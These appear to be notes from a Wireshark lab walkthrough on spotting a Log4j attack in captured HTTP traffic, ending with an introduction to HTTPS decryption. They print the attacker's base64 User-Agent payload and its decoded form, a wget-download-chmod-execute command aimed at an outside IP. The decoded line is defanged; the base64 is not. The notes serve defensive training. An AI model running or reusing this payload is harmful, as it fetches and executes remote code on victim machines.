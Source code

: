 What is the packet number with a subtle spelling difference in the user agent field?

- 52 which was found earlier

Use the "Desktop/exercise-pcaps/http/http.pcapng" file.
Locate the "Log4j" attack starting phase. What is the packet number?

- `http contains jndi`
- 444
![](2023-02-23-07-51-09.png)

Locate the "Log4j" attack starting phase and decode the base64 command. What is the IP address contacted by the adversary? (Enter the address in defanged format and exclude "{}".)

- on frame 444 `right click User-Agent -> copy -> value` and decode on [cyberchef.org](https://cyberchef.org/) website after removing the unneeded parts of the value.
- 62[.]210[.]130[.]250
- can also be decrypted on the device by creating a file with the base64 string. 
- `vi base64.txt` -> paste string `i` to insert `esc :wq` to save
- `{d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}` -> added first and last characters for safety
- `base64 -d base64.txt`
- `wget http://62[.]210[.]130[.]250/lh.sh;chmod +x lh.sh;./lh.sh` -> I added the [defang] into this output for safety.
  ![](2023-02-23-07-51-32.png)

## _**8: Encrypted Protocol Analysis: Decrypting HTTPS**_

**Decrypting HTTPS Traffic**

When investigating web traffic, analysts often run across encrypted traffic. This is caused by using the Hypertext Transfer Protocol Secure (HTTPS) protocol for enhanced security against spoofing, sniffing and intercepting attacks. HTTPS uses TLS protocol to encrypt communications, so it is impossible to decrypt the traffic and view the transferred data without having the encryption/decryption key pairs. As this protocol provides a good level of security for transmitting sensitive data, attackers and malicious websites also use HTTPS. Therefore, a security analyst should know how to use key files to decrypt encrypted traffic and investigate the traffic activity.
